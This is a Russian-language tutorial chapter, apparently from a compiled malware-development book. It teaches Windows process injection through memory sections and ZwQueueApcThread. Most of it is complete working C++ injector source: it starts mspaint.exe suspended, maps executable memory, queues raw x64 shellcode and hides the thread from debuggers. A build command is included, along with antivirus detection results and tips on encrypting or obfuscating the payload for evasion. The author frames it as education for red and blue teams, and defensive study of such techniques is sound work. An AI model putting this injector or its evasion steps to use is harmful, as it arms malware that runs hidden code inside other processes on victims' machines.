






\newpage
\subsection{26. Инъекция кода через секции памяти и ZwQueueApcThread. Простой пример вредоносного кода на C++.}

﷽

{width="80%"}    

В [предыдущем разделе](https://cocomelonc.github.io/tutorial/2022/01/14/malware-injection-13.html) я писал об инъекции кода через секции памяти.    

Этот раздел посвящен замене логики создания потоков.    

### ZwQueueApcThread    

Для кода пользовательского режима нет разницы между функциями `ZwQueueApcThread` и `NtQueueApcThread`. Это просто вопрос предпочтения префикса.    

Нативная функция `ZwQueueApcThread` объявляется так:    

```cpp
NTSYSAPI
NTSTATUS
NTAPI
ZwQueueApcThread(
  IN HANDLE               ThreadHandle,
  IN PIO_APC_ROUTINE      ApcRoutine,
  IN PVOID                ApcRoutineContext OPTIONAL,
  IN PIO_STATUS_BLOCK     ApcStatusBlock OPTIONAL,
  IN ULONG                ApcReserved OPTIONAL );
```

В нашем коде мы используем указатель на функцию `ZwQueueApcThread`:    

```cpp
typedef NTSTATUS(NTAPI* pZwQueueApcThread)(
  IN HANDLE               ThreadHandle,
  IN PIO_APC_ROUTINE      ApcRoutine,
  IN PVOID                ApcRoutineContext OPTIONAL,
  IN PIO_STATUS_BLOCK     ApcStatusBlock OPTIONAL,
  IN ULONG                ApcReserved OPTIONAL
);
```

### ZwSetInformationThread    

Нативная функция `ZwSetInformationThread` объявляется так:    

```cpp
NTSYSAPI NTSTATUS ZwSetInformationThread(
  [in] HANDLE          ThreadHandle,
  [in] THREADINFOCLASS ThreadInformationClass,
  [in] PVOID           ThreadInformation,
  [in] ULONG           ThreadInformationLength
);
```

В нашем коде мы используем указатель на функцию `ZwSetInformationThread`:    

```cpp
typedef NTSTATUS(NTAPI* pZwSetInformationThread)(
  [in] HANDLE          ThreadHandle,
  [in] THREADINFOCLASS ThreadInformationClass,
  [in] PVOID           ThreadInformation,
  [in] ULONG           ThreadInformationLength
);
```

### практический пример    

Логика моего примера аналогична предыдущему разделу, единственное отличие:

{width="80%"}    

Как видно, я заменил логику запуска полезной нагрузки.    

Есть один интересный момент с `ZwSetInformationThread`. Вторым параметром этой функции является структура `THREADINFOCLASS`, которая представляет собой перечисляемый тип. Последний элемент этого перечисления - `ThreadHideFromDebugger`. Установив `ThreadHideFromDebugger` для потока, можно запретить потоку генерировать отладочные события. Это была одна из первых техник защиты от отладки, предоставленных Windows, и она является довольно мощной.    

Полный исходный код вредоносного ПО:

```cpp
/*
 * hack.cpp - code injection via 
 * ZwCreateSection, ZwUnmapViewOfSection, 
 * ZwQueueApcThread
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/01/17/malware-injection-14.html
*/
#include <cstdio>
#include <windows.h>
#include <winternl.h>

#pragma comment(lib, "ntdll")

// ZwCreateSection
typedef NTSTATUS(NTAPI* pZwCreateSection)(
  OUT PHANDLE            SectionHandle,
  IN ULONG               DesiredAccess,
  IN POBJECT_ATTRIBUTES  ObjectAttributes OPTIONAL,
  IN PLARGE_INTEGER      MaximumSize OPTIONAL,
  IN ULONG               PageAttributess,
  IN ULONG               SectionAttributes,
  IN HANDLE              FileHandle OPTIONAL
);

// NtMapViewOfSection syntax
typedef NTSTATUS(NTAPI* pNtMapViewOfSection)(
  HANDLE            SectionHandle,
  HANDLE            ProcessHandle,
  PVOID*            BaseAddress,
  ULONG_PTR         ZeroBits,
  SIZE_T            CommitSize,
  PLARGE_INTEGER    SectionOffset,
  PSIZE_T           ViewSize,
  DWORD             InheritDisposition,
  ULONG             AllocationType,
  ULONG             Win32Protect
);

// ZwUnmapViewOfSection syntax
typedef NTSTATUS(NTAPI* pZwUnmapViewOfSection)(
  HANDLE            ProcessHandle,
  PVOID             BaseAddress
);

// ZwClose
typedef NTSTATUS(NTAPI* pZwClose)(
  _In_ HANDLE       Handle
);

// ZwQueueApcThread
typedef NTSTATUS(NTAPI* pZwQueueApcThread)(
  IN HANDLE               ThreadHandle,
  IN PIO_APC_ROUTINE      ApcRoutine,
  IN PVOID                ApcRoutineContext OPTIONAL,
  IN PIO_STATUS_BLOCK     ApcStatusBlock OPTIONAL,
  IN ULONG                ApcReserved OPTIONAL
);

// ZwSetInformationThread
typedef NTSTATUS(NTAPI* pZwSetInformationThread)(
  _In_ HANDLE             ThreadHandle,
  _In_ THREADINFOCLASS    ThreadInformationClass,
  _In_ PVOID              ThreadInformation,
  _In_ ULONG              ThreadInformationLength
);

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE sh; // section handle
  HANDLE th; // thread handle
  STARTUPINFOA si = {};
  PROCESS_INFORMATION pi = {};
  PROCESS_BASIC_INFORMATION pbi = {};
  OBJECT_ATTRIBUTES oa;
  SIZE_T s = 4096;
  LARGE_INTEGER sectionS = { (DWORD) s };
  PVOID rb = NULL; // remote buffer
  PVOID lb = NULL; // local buffer

  ZeroMemory(&si, sizeof(STARTUPINFO));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  ZeroMemory(&pbi, sizeof(PROCESS_BASIC_INFORMATION));
  si.cb = sizeof(STARTUPINFO);

  ZeroMemory(&oa, sizeof(OBJECT_ATTRIBUTES));

  HMODULE ntdll = GetModuleHandleA("ntdll");
  pZwCreateSection myZwCreateSection = 
  (pZwCreateSection)(GetProcAddress(
    ntdll, "ZwCreateSection"));
  pNtMapViewOfSection myNtMapViewOfSection = 
  (pNtMapViewOfSection)(GetProcAddress(
    ntdll, "NtMapViewOfSection"));
  pZwUnmapViewOfSection myZwUnmapViewOfSection = 
  (pZwUnmapViewOfSection)(GetProcAddress(
    ntdll, "ZwUnmapViewOfSection"));
  pZwQueueApcThread myZwQueueApcThread = 
  (pZwQueueApcThread)GetProcAddress(
    ntdll, "ZwQueueApcThread");
  pZwSetInformationThread myZwSetInformationThread = 
  (pZwSetInformationThread)GetProcAddress(
    ntdll, "ZwSetInformationThread");
  pZwClose myZwClose = 
  (pZwClose)GetProcAddress(
    ntdll, "ZwClose");

  // create process as suspended
  if (!CreateProcessA(NULL, 
  (LPSTR) "C:\\windows\\system32\\mspaint.exe", 
  NULL, NULL, NULL,
  CREATE_SUSPENDED | DETACHED_PROCESS | CREATE_NO_WINDOW,
  NULL, NULL, &si, &pi)) {
    printf("create process failed :(\n");
    return -2;
  };

  myZwCreateSection(&sh, 
  SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, 
  NULL, &sectionS, 
  PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
  printf("section handle: %p.\n", sh);

  // mapping the section into current process
  myNtMapViewOfSection(sh, GetCurrentProcess(), &lb, 
  NULL, NULL, NULL,
  &s, 2, NULL, PAGE_EXECUTE_READWRITE);
  printf("local process mapped at address: %p.\n", lb);

  // mapping the section into remote process
  myNtMapViewOfSection(sh, pi.hProcess, &rb, 
  NULL, NULL, NULL,
  &s, 2, NULL, PAGE_EXECUTE_READWRITE);
  printf("remote process mapped at address: %p\n", rb);

  // copy payload
  memcpy(lb, my_payload, sizeof(my_payload));

  // unmapping section from current process
  myZwUnmapViewOfSection(GetCurrentProcess(), lb);
  printf("mapped at address: %p.\n", lb);
  myZwClose(sh);

  sh = NULL;

  // create new thread
  myZwQueueApcThread(pi.hThread, (PIO_APC_ROUTINE)rb, 0, 0, 0);
  myZwSetInformationThread(pi.hThread, (THREADINFOCLASS)1,
  NULL, NULL);
  ResumeThread(pi.hThread);
  myZwClose(pi.hThread);
  myZwClose(th);

  return 0;

}
```

Как обычно, для простоты я использовал всплывающее окно с сообщением `meow-meow` в качестве полезной нагрузки:

```cpp
unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### демо

Компилируем наш пример:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive
```

{width="80%"}    

Затем запускаем и смотрим в действии! В нашем случае целевая машина - `Windows 10 x64`:

{width="80%"}    

{width="80%"}    

Как видно, всё прошло успешно :)    

Далее загружаем наше вредоносное ПО на VirusTotal:    

{width="80%"}    

[https://www.virustotal.com/gui/file/a96b5c2a8fce03d4b6e30b9499a3df2280cb6f5570bb4198a1bd51aeaa2665e8/detection](https://www.virustotal.com/gui/file/a96b5c2a8fce03d4b6e30b9499a3df2280cb6f5570bb4198a1bd51aeaa2665e8/detection)    

**Итак, 9 из 67 антивирусных движков обнаруживают наш файл как вредоносный.**    

Результат `Moneta64.exe`:    

{width="80%"}    

Если мы хотим добиться лучшего результата, мы можем добавить [шифрование полезной нагрузки](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html) с ключом или [обфусцировать](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html) функции, либо комбинировать обе эти техники.    

Я надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике и добавит ещё одно оружие в арсенал красных команд.

[CreateProcessA](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa?redirectedfrom=MSDN)     
[ZwCreateSection](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-zwcreatesection)    
[NtMapViewOfSection](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FNtMapViewOfSection.html)    
[ZwUnmapViewOfSection](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-zwunmapviewofsection)    
[ZwClose](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-zwclose)    
[ZwQueueApcThread/NtQueueApcThread](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FAPC%2FNtQueueApcThread.html)    
[ZwSetInformationThread](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-zwsetinformationthread)    
[Moneta64.exe](https://github.com/forrest-orr/moneta)    
[исходный код на Github](https://github.com/cocomelonc/2022-01-17-malware-injection-14)    
